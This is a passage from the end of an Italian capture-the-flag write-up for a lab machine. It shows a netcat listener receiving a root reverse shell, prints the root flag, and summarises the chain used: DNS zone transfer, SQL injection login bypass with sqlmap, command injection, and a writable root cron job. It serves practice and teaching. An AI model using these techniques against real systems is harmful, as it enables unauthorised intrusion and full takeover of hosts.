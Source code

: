 ci  mettiamo  in ascolto con nc e aspettiamo un minuto

```bash
┌──(root㉿kali)-[/home/kali/tool/shell/webshell]
└─# nc -lnvp 4444                                      
listening on [any] 444 ...
```

otteniamo cosi  la nostra shell con prvilegi root

```bash
┌──(root㉿kali)-[/home/kali/tool/shell/webshell]
└─# nc -lnvp 444 
listening on [any] 444 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.13] 47842
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

Flag root
```
cat root.txt
82995b244fa7508941c3ec4870eca12c
```

# LESSION LEARNED

Per ottenere un punto d'appoggio iniziale abbiamo sfruttato tre vulnerabilità.

1. La possibilità di eseguire un zone transfer (vedi nslookup) che ci ha permesso di ottenere un elenco di tutti gli host per il dominio. Per evitare che si verifichi questa vulnerabilità, il server DNS deve essere configurato in modo da consentire solo i trasferimenti di zona da indirizzi IP attendibili.
2. Una Sql injection ci ha permesso di aggirare un form di  autetnticazione (manuele e automatica con sqlmap)  
3. Una Command injection ci ha permesso di eseguire comandi di sistema arbitrari

Per passare ai privilegi di root, dovevamo sfruttare una delle seguenti vulnerabilità.
Una configurazione errata della sicurezza in cron 
che prevedeva un processo cron pianificato per eseguire un file di proprietà dell'utente non privilegiato come root. 
Siamo stati in grado di sfruttarlo per ottenere un reverse shell privilegiato
